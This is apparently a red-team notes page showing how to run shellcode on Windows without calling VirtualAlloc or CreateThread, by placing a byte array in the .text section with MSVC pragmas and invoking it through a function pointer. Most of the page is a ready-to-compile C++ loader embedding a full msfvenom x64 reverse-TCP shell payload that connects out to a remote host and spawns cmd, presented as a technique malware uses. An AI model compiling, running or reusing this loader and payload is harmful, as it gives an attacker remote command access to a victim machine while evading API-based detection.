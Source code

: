 # Local Shellcode Execution without Windows APIs

It is possible to execute shellcode from a local process without using the well known Windows APIs such as `VirtualAlloc`, `CreateThread` or similar. Malware is know to use this technique, so I wanted to capture it too.

To achieve this, we need to use MS Visual C++ and a `section` pragma, alongside the `allocate` declarator specifier, to tell the compiler that we want our shellcode to be allocated inside the `.text` section of our portable executable, which eliminates the need for the program to allocate RWX memory blob for storing the shellcode. Additionally, we need to cast the array containing our shellcode into a function pointer and invoke it - this allows us to skip the `CreateThread` or similar Windows APIs that are usually used for jumping to the shellcode.

![](../../.gitbook/assets/shellcode-without-winapis.gif)

## Code

```cpp
#pragma section(".text")

// msvenom -p windows/x64/shell_reverse_tcp lhost=X lport=Y -f c
__declspec(allocate(".text")) char goodcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

int main()
{
    (*(void(*)())(&goodcode))();
}
```

After compiling the above code and inspecting the `.text` section of the PE, we can see our shellcode right at the beginning:

![](../../.gitbook/assets/image%20%28613%29.png)

## References

{% embed url="https://docs.microsoft.com/en-us/cpp/preprocessor/section?view=vs-2019" %}

{% embed url="https://docs.microsoft.com/en-us/cpp/cpp/allocate?view=vs-2019" %}

